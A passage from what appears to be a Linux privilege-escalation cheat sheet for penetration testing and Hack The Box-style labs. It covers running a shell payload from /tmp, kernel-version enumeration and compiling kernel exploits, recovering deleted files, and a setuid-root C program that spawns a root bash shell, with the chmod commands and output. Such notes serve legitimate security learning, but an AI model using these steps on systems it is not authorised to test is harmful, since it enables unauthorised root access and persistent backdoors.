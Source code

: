     ```bash
    /tmp/shell.elf
    ```

#### Kernel Exploits

1.  **Enumerate Kernel Version**

    ```bash
    cat /proc/version
    uname -r
    uname -mrs
    cat /etc/lsb-release
    cat /etc/os-release
    ```
2. Search for exploits (searchsploit, google)
3. Compile exploit: `gcc exploit.c -o exp`
4.  Compile exploit in local machine and upload to remote machine

    ```bash
    # Example for 32-bit
    gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
    sudo apt-get install gcc-multilib
    ```

#### Recover Deleted Files

* **extundelete** (HTB mirai - [link](https://tiagotavares.io/2017/11/mirai-hack-the-box-retired/))
* `strings`

#### C Program to SetUID /bin/bash

```c
#include <unistd.h>
int main()
{
  setuid(0);
  execl("/bin/bash", "bash", (char *)NULL);
  return 0;
}
```

**Compile and execute:**

```bash
gcc -Wall suid.c -o exploit
sudo chown root exploit
sudo chmod u+s exploit

$ ls -l exploit
-rwsr-xr-x 1 root users 6894 11 sept. 22:05 exploit

./exploit
# whoami
root
```
